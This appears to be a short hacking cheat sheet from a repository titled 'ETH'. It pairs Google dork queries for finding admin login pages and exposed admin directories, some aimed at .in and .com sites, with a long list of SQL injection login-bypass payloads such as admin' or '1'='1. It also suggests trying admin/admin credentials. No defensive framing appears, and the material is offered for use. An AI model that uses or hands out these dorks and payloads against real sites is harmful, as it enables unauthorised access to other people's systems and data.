 # ETH

## Dork:
ei duita te beshi kaj hobe.
- inurl: admin/login.php site:.com
- inurl: admin/login.php site:.in
- inurl: admin/login.php
- inurl: admin/index.php
- inurl: admin
- inurl: login.php
- inurl: login.php site:.in

Two
- inurl:adminlogin.aspx
- inurl:admin/index.php
- inurl:administrator.php
- inurl:administrator.asp
- inurl:login.asp
- inurl:login.aspx
- inurl:login.php
- inurl:admin/index.php
- inurl:adminlogin.aspx


## SQL INJECTION
- 1'or'1'='1
- 1'or'1'-'1
- OR 1-1 LIMIT 1 ;# or 1-1 limit 1 --
- admin' or '1'-'1
- 'or 1-1 limit 1--
- 1'or'1'='1
- ' or 1=1#
- or 1=1
- " or ""="
- or 1=1--
- or 1=1#
- or 1=1/*
- admin' --
- admin' #
- admin'/*
- admin' or '1'='1
- admin' or '1'='1'--
- admin' or '1'='1'#
- admin' or '1'='1'/*
- admin'or 1=1 or ''='
- admin' or 1=1
- admin' or 1=1--
- admin' or 1=1#
- admin' or 1=1/*
- admin') or ('1'='1
- admin') or ('1'='1'--
- admin') or ('1'='1'#
- admin') or ('1'='1'/*
- admin') or '1'='1
- admin') or '1'='1'--
- admin') or '1'='1'#
- admin') or '1'='1'/*

- user Name: admin password: admin

## DORKS:
- inurl:adminlogin.aspx
- inurl:admin/index.php
- inurl:administrator.php
- inurl:administrator.asp
- inurl:login.asp
- inurl:login.aspx
- inurl:login.php
- inurl:admin/index.php
- inurl:adminlogin.aspx
- inurl:personalrecords/login.php
- inurl:admin/Uploade
- inurl:admin/Upload
- inurl:creative-admin
- inurl:-admin/login.php
- inurl:*-admin/index.php
- inurl:-admin/admin.php
- intitle:"index" of "admin" site:
- intitle:"index" of "admin" "framework" site:.in
- intitle:"index" of "admin" "pdf" site:
- intitle:"index" of "admin" "gallery" site:
- intitle:"index" of "admin" "image" site:
- intitle:"index" of "admin" "upload" site:
- intitle:"index" of "admin" "banner" site:
- intitle:"index" of "admin" "file" site:
- intitle:"index" of "admin" "page" site:
- intitle:"index" of "admin" "news" site:
- intitle:"index" of "admin" "views" site:
- intitle:"index" of "admin" "include" site:
- intitle:"index" of "admin" "picture" site:
- intitle:"index" of "admin" "photos" site:
- inurl: admin/login.php site:.in

## Admin Pane Finding dork
- site:example.com inurl:login | inurl:signin | intitle:Login | intitle:"sign in" | inurl:auth

## PAYLOADS
- 1'or'1'='1
- ' OR 1=1 LIMIT 1 ;#
- ' or 1=1 limit 1 -- -+
- admin' or '1'='1
- 'or 1=1 limit 1-- -+---
